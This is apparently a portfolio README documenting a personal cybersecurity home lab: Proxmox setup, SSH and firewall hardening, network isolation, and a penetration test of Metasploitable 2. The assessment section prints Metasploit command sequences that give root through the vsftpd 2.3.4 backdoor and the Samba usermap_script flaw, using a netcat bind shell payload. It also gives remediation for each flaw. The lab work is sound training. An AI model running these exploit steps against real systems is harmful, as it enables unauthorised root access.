

<div align="center">

# 🛡️ PROJECT : Cybersecurity (Home Lab)

*built, secured, and broken into, on purpose.*

<br/>


<br/>


<br/>

`Build` ➜ `Secure` ➜ `Isolate` ➜ `Assess` ➜ `Document`

</div>

---

<div align="center">

### 🎯 &nbsp; 2 Critical vulnerabilities exploited to root &nbsp; · &nbsp; 🔒 Zero ports exposed to the internet &nbsp; · &nbsp; 🧪 Fully isolated lab

</div>

---

## Overview

> *"Transitioning into cybersecurity by building, securing, and documenting an enterprise-grade home lab from the ground up."*

A complete cybersecurity lab built from scratch on a single repurposed laptop. It runs a virtualised server, an isolated and firewalled network, hardened remote access, and a live penetration-testing range — and every phase is documented as proof of skill: not just *what* was built, but how decisions were made, **what broke, how it was root-caused**, and what each step demonstrates.

| | |
|---|---|
| 👤 **Owner** | Upkar Dahiya |
| 🖥️ **Host** | Old laptop · 32 GB RAM · 512 GB SSD · Proxmox VE 9 |
| 🌐 **Lab subnet** | `172.16.50.0/24` (isolated · no uplink to home) |
| 🧱 **VMs** | Jump box · OPNsense · Kali · Metasploitable 2 · Lubuntu |
| 🔑 **Remote access** | Tailscale (WireGuard) — no router ports opened |
| 🗓️ **Timeline** | ~1-hour daily sessions · June 2026 |

---

## ⚠️ Disclaimer

> All testing was performed **only on systems owned by the author**, inside a fully isolated lab. The vulnerable target was **never** connected to the internet or the home network. Testing systems you do not own, without explicit written authorization, is illegal.
>
> **Recommended background:** CompTIA Security+ level or equivalent hands-on IT experience.

---

## 🗺️ Architecture



<div align="center"><sub><code>172.16.50.0/24</code> is RFC 1918 private space — safe to publish. Public IPs, MACs, and hostnames are redacted in all screenshots.</sub></div>

---

## 🚀 The build

<table>
<tr>
<td width="50%" valign="top">

### ✅ Phase 0 — Set up the engine
*Turn an old laptop into a virtualisation server.*

- Planned and designed the lab and its network
- Installed **Proxmox VE 9**, applied all updates
- Built a headless **Debian jump box** VM
- Saved a clean baseline snapshot

`Done when:` Proxmox live, jump box exists, snapshot restorable.

</td>
<td width="50%" valign="top">

### ✅ Phase 1 — Secure the front door
*Make the only way in strong — from anywhere.*

- **Tailscale** remote access (zero open ports)
- Unprivileged sudo user (**least privilege**)
- **SSH key-only** login via Termius
- `ufw` default-deny · `fail2ban` · auto-updates
- 🔧 *Root-caused a recurring disconnect (below)*

`Done when:` Key-only access, no remote root, firewall up, stable on reboot.

</td>
</tr>
<tr>
<td width="50%" valign="top">

### ✅ Phase 2 — Build a safe play-area
*A sealed network that can't touch home.*

- Internal-only Proxmox bridge (`vmbr1`)
- **OPNsense** firewall, dual-homed
- DHCP + gateway on `172.16.50.0/24`
- Rule: **allow** lab→internet, **block** lab→home
- Jump box as **Tailscale subnet router**

`Done when:` Isolation verified, lab reachable via jump box.

</td>
<td width="50%" valign="top">

### ✅ Phase 3 — Find the weak spots
*First real security project.*

- **Kali** + **Metasploitable 2** on the sealed net
- Full `nmap` enumeration — 20+ services
- Mapped versions → CVEs
- **2 Critical findings exploited to root**
- Professional report written & published

`Done when:` Vulnerability report published as a portfolio piece.

</td>
</tr>
</table>

---

## 🔧 Troubleshooting spotlight — the disconnect that wouldn't quit

> The kind of problem that separates "followed a tutorial" from "can actually run infrastructure."

**Symptom:** after every reboot, the jump box was running but Tailscale was unreachable — no ping, no SSH.

| Round | Theory | Outcome |
|:--:|---|---|
| 1️⃣ | Host RAM pressure killing `tailscaled` after adding VMs | Freed memory — *didn't fully fix it* |
| 2️⃣ | Tailscale `NoState` corruption from unclean shutdowns | Re-authenticated — *didn't fully fix it* |
| 3️⃣ | **Root cause** → `ens18` set to `allow-hotplug`, not `auto` | ✅ **Fixed** |

**Why it happened:** `allow-hotplug` is event-driven. On some boots the event never fired, so `ens18` never got an IPv4 address — the machine came up **IPv6-only**, Tailscale's control plane was unreachable, and the node looked offline.

```diff
# /etc/network/interfaces
- allow-hotplug ens18
+ auto ens18
```

> 💡 **Lesson:** for a server with a fixed NIC, always use `auto`. `allow-hotplug` is for removable interfaces.

---

## 🔍 Vulnerability assessment

| # | Service | Port | Version | Severity |
|:--:|---|:--:|---|:--:|
| 1 | FTP — vsftpd backdoor | `21` | vsftpd 2.3.4 |  |
| 2 | Samba — username map script | `139/445` | Samba 3.x |  |

<sub>Plus exposed legacy services: telnet, rexec/rlogin/rsh, an open root bind shell on `1524`, outdated Apache/Tomcat, exposed MySQL/PostgreSQL.</sub>

<details>
<summary><b>🔴 Finding 1 — vsftpd 2.3.4 backdoor &nbsp;·&nbsp; CVE-2011-2523</b></summary>

<br/>

The vsftpd 2.3.4 source was maliciously modified. A username containing `:)` triggers a **root shell** on TCP `6200` — **no credentials required**.

```bash
# Discovery
nmap -sV 172.16.50.x          # 21/tcp open ftp vsftpd 2.3.4

# Exploitation
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.16.50.x
run

# Verification
getuid                        # Server username: root
```

**Remediation:** remove vsftpd 2.3.4 immediately · install a current, signed release · prefer SFTP/FTPS · monitor for rogue listeners on port 6200.

</details>

<details>
<summary><b>🔴 Finding 2 — Samba "username map script" &nbsp;·&nbsp; CVE-2007-2447</b></summary>

<br/>

With `username map script` enabled, the login username is passed to a shell **unsanitised**. Shell metacharacters execute as **root** — no credentials required.

```bash
# Exploitation
use exploit/multi/samba/usermap_script
set RHOSTS 172.16.50.x
set payload cmd/unix/bind_netcat   # reverse shell failed → bind shell succeeded
run

# Verification
id                                 # uid=0(root) gid=0(root)
```

> 🧠 **Payload note:** the default reverse shell couldn't connect back, so I switched to a **bind shell** — which succeeded. Recognising *when to swap payloads* based on network behaviour is a practical exploitation skill.

**Remediation:** upgrade Samba · disable `username map script` · block ports 139/445 at the firewall.

</details>

<details>
<summary><b>📋 Full nmap output</b></summary>

<br/>

```
# Nmap 7.99 — nmap -sV -oN nmap-metasploitable.txt 172.16.50.111
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

</details>

---

## 🛠️ Skills demonstrated

| Skill | How it was proven |
|---|---|
| 🖧 **Virtualisation** | Proxmox VE 9 — VMs, snapshots, network bridges |
| 🐧 **Linux administration** | Headless setup, CLI, users, permissions, updates |
| 🔐 **Least privilege** | Root replaced by unprivileged sudo account |
| 🌐 **Secure remote access** | Key-based SSH · WireGuard mesh · zero open ports |
| 🛡️ **Host hardening** | `ufw` default-deny · `fail2ban` · `unattended-upgrades` |
| 🧱 **Network segmentation** | Isolated `vmbr1` · OPNsense · verified block rule |
| 🧭 **Routing & VPN** | Jump box as Tailscale subnet router |
| 🔧 **Root-cause analysis** | Disconnect traced through 3 theories → permanent fix |
| 🔎 **Vulnerability assessment** | Enumeration → research → exploitation → verify → remediate |
| 📝 **Professional reporting** | Report for both manager and technical readers |

---

## 📦 Tech stack

| Tool | Version | Role |
|---|---|---|
| Proxmox VE | `9.2` | Hypervisor |
| OPNsense | `26.1` | Firewall / router |
| Kali Linux | `2026.1` | Attacker |
| Metasploitable 2 | `2.0.0` | Vulnerable target |
| Tailscale | `1.98.5` | Encrypted remote access |
| Debian (jump box) | `13` | Hardened entry point |
| Lubuntu | `26.04 LTS` | Management workstation |
| nmap / Metasploit | `7.99 / 6.4` | Recon & exploitation |
| Termius · RustDesk · Bitwarden · VS Code | — | Tooling |

<sub>The majority of tools used in this project are open-source.</sub>

---

## 📁 Repository structure

```
cybersecurity-home-lab/
├── README.md                  ← portfolio overview
├── cybersecurity-home-lab_documentation.pdf
│   ├── software-inventory.md      ← tools · versions · sources
│   ├── network-diagram.svg        ← topology (vector)
│   ├── roadmap.md                 ← phase-by-phase plan
│   ├── vulnerability-report.md    ← full professional assessment
│   └── screenshots/               ← redacted proof
```

---

<div align="center">

### 🏷️ Topics
`cybersecurity` · `homelab` · `penetration-testing` · `proxmox` · `opnsense` · `kali-linux` · `metasploit` · `tailscale` · `network-security` · `ssh-hardening` · `nmap` · `ethical-hacking`

<br/>

<sub>Published for educational and portfolio purposes · All testing performed only on systems owned by the author.</sub>

**Built over ~1-hour daily sessions · June 2026 · Upkar Dahiya**

</div>
